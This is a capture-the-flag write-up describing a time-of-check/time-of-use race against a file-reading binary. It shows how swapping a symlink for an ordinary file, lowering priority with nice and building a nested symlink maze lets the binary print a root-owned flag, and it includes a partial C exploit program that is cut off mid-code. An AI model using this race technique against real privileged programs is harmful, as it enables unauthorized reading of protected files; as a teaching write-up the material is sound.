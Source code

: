 At first glance, this seems pretty secure, but what if we can modify the file in between it being loaded into memory and it being checked?

I tried putting a `getchar` in between the `ifstream` constructor and the call to `stat`, recompiled it, and ran the binary locally with `./txtreader ./junk` (where `junk` is a symlink to `./flag.txt`, which is owned by root):

```
std::string filename = argv[1];
std::ifstream file(filename);
struct stat statbuf;

getchar();

// Check the file's status information.
if (stat(filename.c_str(), &statbuf) == -1) {
```

While `getchar` stalled, I removed `junk` and replaced it with a normal, empty file with the same name (owned by me). Then, upon continuing execution, the program read out the contents of `flag.txt`!. It turns out that `filename.c_str()` returns the string `"junk"` instead of `flag.txt`, since we swapped the symlink out for a normal file. This means the permission check will pass, and it will output the contents of the original file.

The challenge is timing the attack properly. There are two basic techniques I used:

1) Call `nice` to lower the process' priority

2) Make a filesystem maze to lengthen the amount of time between the file open and permissions check

The filesystem maze is just a bunch of nested directories with symlinks. For example, it might look like: `./a/b/c/.../z/symlink_to_maze/a/b/.../z/`.

I also had to time the gap to get things working properly, which ended up being around `4600 ms` before the permission check. Of course, in between the gap, we have to 1) remove the `junk` symlink, and 2) create a new empty file called `junk`. We can do this in a separate process. Here's the final program (`solve.c`):

```
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/wait.h>

int main() {
    char* filename = "./maze/a_end/root/b_end/root/c_end/root/d_end/root/e_end/root/f_end/root/g_end/root/h_end/root/i_end/root/j_end/root/k_end/root/l_end/root/m_end/root/n_end/root/o_end/root/p_end/root/q_end/root/r_end/root/junk";
    char* filename_short = "./maze/junk";
    char* flag = "./flag.txt";

    unlink(filename);
    symlink(flag, filename);

    int pid = fork();
    if (pid == 0) {
        // low scheduler priority
        nice(19);

        // in child process, start the challenge
        char* argv[] = { "./txtreader", filename, NULL };
        execve(argv[0], argv, NULL);
    } else {
```